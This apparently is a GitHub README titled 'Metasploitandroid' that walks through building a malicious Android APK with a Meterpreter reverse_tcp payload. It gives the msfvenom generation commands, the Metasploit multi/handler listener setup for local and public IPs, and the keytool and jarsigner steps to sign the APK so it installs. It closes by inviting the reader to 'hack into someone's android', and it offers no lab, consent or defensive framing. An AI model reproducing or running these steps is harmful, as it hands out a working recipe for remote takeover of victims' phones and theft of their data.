 # Metasploitandroid
Set up Metsploit Venom to generate a malicious Android app with a reverse shell

To do this, we need to run some commands on Linux.

1. Generate an .apk using msfvenom
   msfvenom -p android/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=<your_port> -o malicious.apk
   Replace <your_IP> with your local or public IP.
   Public IP will be needed if the person downloading the APK is out of your local network.
   To get your public IP, visit https://whatismyipaddress.com or curl ifconfig.me on linux.
   Replace <your_port> with the port you’ll be listening on, e.g. 4444
With a local IP, the command looks like this: msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -o malicious.apk
With a public IP, the command might look like this: msfvenom -p android/meterpreter/reverse_tcp LHOST=45.67.89.123 LPORT=4444 -o malicious.apk. You'll also need to set up port forwarding here.

2. Then, set up the Metasploit listener to listen to the incoming requests.
   - For Local IP set-up:
   msfconsole
   use exploit/multi/handler
   set payload android/meterpreter/reverse_tcp
   set LHOST 192.168.1.100   #this is your local IP address
   set LPORT 4444
   exploit

   - For Public IP set-up:
   msfconsole
   use exploit/multi/handler
   set payload android/meterpreter/reverse_tcp
   set LHOST 0.0.0.0   # this allows all the request from the internet WAN/LAN
   set LPORT 4444
   exploit

3. Sometimes the APK might not install and ask for a signing. This is an added security check by Android, so we need to sign our malicious.apk file as well.
   Usually, it's available with Android Studio in Windows.
   In Linux, you can install apksigner. It comes with the Android SDK. If you don’t have it, install zipalign and apksigner using: sudo apt install apksigner zipalign -y 
   keytool -genkey -v -keystore my-release-key.keystore -alias my-key-alias -keyalg RSA -keysize 2048 -validity 10000
   jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.keystore malicious.apk my-key-alias

4. Once the target installs and opens the APK, you should see a Meterpreter session open in Metasploit:
   meterpreter >
   Now, your reverse shell is good to go, and you can try commands to hack into someone's android.

  


